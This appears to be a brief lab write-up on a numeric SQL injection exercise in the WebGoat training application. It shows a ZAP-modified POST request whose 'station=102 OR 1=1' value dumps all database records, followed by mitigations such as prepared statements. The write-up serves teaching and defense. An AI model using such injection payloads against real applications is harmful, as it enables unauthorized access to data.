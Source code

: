 
## Vulnerability:

This time integer data type is supplied to sql query via drop down menu.

## Exploitation:

Modified request in ZAP that exploits this vulnerability:

```
POST http://webgoat.hacking-lab.com/attack?Screen=77&menu=1100 HTTP/1.1
Proxy-Connection: keep-alive
Content-Length: 33
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://webgoat.hacking-lab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/39.0.2171.65 Chrome/39.0.2171.65 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://webgoat.hacking-lab.com/attack?Screen=77&menu=1100
Accept-Language: en-US,en;q=0.8
Cookie: JSESSIONID=DD06788BDCB1B5813FA6CDC51452FF6E
Cookie: $Version=0; JSESSIONID=A93334E44AE5E96915FD28AA47049A61; $Path=/
Host: webgoat.hacking-lab.com
Cookie: $Version=0; JSESSIONID=A93334E44AE5E96915FD28AA47049A61; $Path=/

station=102+OR+1%3D1&SUBMIT=Go%21
```

It retrieves all DB records.

Mitigation:
1) validate input data

2) use prepared statements/stored procedures (https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet) 
